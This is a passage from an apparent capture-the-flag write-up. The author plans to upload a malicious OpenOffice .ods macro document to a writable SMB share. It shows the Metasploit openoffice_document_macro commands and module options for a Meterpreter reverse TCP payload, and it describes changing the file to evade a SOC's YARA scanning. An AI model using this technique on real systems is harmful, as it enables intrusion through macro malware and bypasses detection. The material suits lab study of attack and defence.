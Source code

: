 ```
    |   |
    |   \---00
    |       |   00000000.prp
    |       |
    |       \---~00000000.db
    |               db.2.gbf
    |               db.3.gbf
    |
    +---user
    |       ~index.dat
    |
    \---versioned
            ~index.bak
            ~index.dat
		  </pre></code>
	  </li>
	  <li>Add entire directory into zip archive.</li>
	  <li> Upload zip here:</li>
    </ol> -->
```
Perhaps we can found a path to upload a file ...
At this moment, i tried many things but nothing work. so i return to the site and read all the blog articles, and i understand that the SOC have some phishing attempts with ods attatchements.
And it appears that they analyse theses files with yara, to detect any malware... 

#### Yara 
Is a tool that allows you to write rules to identify, organize, and classify similar files. This is particularly useful to malware analysts, who want to gather various samples that share certain characteristics to analyze together. The tool will scan through a file or directory of files with a provided rule and identify any files that match the patterns in the rule.

Ok the idea here is to upload an ods file, in this file we have a macro with a payload. But this file should pass the yara rules analyse.

In the blog we have a link, how yara analyse an odt created by metasploit. so i followed how to modify my ods exploit file.

##### Nota: smbmap shows that "malware_dropbox"  share is Read Only, but when i tried i can write into, so i will put my exploit here.

### Create the ods file with metasploit :
I use "openoffice_document_macro" to create the .ods file
```
msf5 > use exploit/multi/misc/openoffice_document_macro
msf5 exploit(multi/misc/openoffice_document_macro) > options

Module options (exploit/multi/misc/openoffice_document_macro):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   BODY                                 no            The message for the document body
   FILENAME  msf.ods           yes          The OpoenOffice Text document name
   SRVHOST   0.0.0.0             yes          The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT   80                yes          The local port to listen on.
   SSL       false                     no            Negotiate SSL for incoming connections
   SSLCert                             no            Path to a custom SSL certificate (default is randomly generated)
   URIPATH                            no           The URI to use for this exploit (default is random)


Payload options (windows/meterpreter/reverse_tcp):
```
